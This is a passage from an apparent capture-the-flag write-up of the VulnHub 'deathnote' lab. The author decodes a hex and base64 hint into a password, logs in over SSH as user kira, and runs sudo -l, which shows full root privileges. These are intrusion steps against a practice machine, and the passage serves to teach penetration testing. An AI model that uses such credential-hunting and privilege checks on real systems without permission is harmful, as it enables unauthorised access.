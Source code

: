 then I moved to the /opt/L directory. then here I found two folders, so I tried to enter the first folder called fake-notebook-rule.

```
l@deathnote:/opt/L$ ls
fake-notebook-rule  kira-case   
l@deathnote:/opt/L$
```

i see two files, i tried instead of the hint file there it tells me to use cyberchef. then I also open the case.wav file its contents are hex text. I use cyberchef to identify the type of text. and I get the password in encrypted form using base64.

```
@deathnote:/opt/L/fake-notebook-rule$ ls
case.wav  hint
l@deathnote:/opt/L/fake-notebook-rule$ cat hint
use cyberchef
l@deathnote:/opt/L/fake-notebook-rule$ cat case.wav 
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d   
l@deathnote:/opt/L/fake-notebook-rule$ echo -n 'cGFzc3dkIDoga2lyYWlzZXZpbCA=' | base64 -d
passwd : kiraisevil
l@deathnote:/opt/L/fake-notebook-rule$
```

in the /home directory I found two users, I have done many things to both of them but to no avail, because I have found the password I tried ssh l with the password I found but couldn't connect, so I tried kira.

```
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ ssh kira@192.168.56.105 
kira@192.168.56.105's password: 
Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_6
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep  4 06:00:09 2021 from 127.0.0.1
kira@deathnote:~$
```

after logging in as guess i try to see what's there, I found a txt file and it looks like it's just a user flag code or something, so I ignore it first and find out more.

```
kira@deathnote:~$ ls
kira.txt
kira@deathnote:~$ cat kira.txt
cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp
kira@deathnote:~$
```

now i try to see the user who can login as root.

```
kira@deathnote:~$ sudo -l
[sudo] password for kira: 
Matching Defaults entries for kira on deathnote:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bi
User kira may run the following commands on deathnote:
(ALL : ALL) ALL
kira@deathnote:~$
```
